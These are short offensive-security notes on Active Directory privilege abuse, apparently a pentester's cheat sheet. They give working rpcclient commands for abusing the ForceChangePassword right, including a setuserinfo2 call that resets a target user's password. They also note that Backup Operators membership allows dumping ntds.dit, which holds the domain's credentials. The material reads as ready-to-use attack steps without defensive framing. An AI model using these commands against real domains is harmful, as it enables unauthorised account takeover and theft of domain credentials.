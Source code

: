 # ForceChangePassword change user password
can exploit with impacket
payloadsallthethings "Active Directory Attack.md"
```bash
rpcclient $IP -U username -W domain.local
```
within rpcclient shell
```
setuserinfo2 targetuser 23 targetnewpwd
```

# Backup Operators group
permissions to back up files. can back up C drive to dump ntds.dit

# active directory sensitive files
ntds.dit - domain credentials
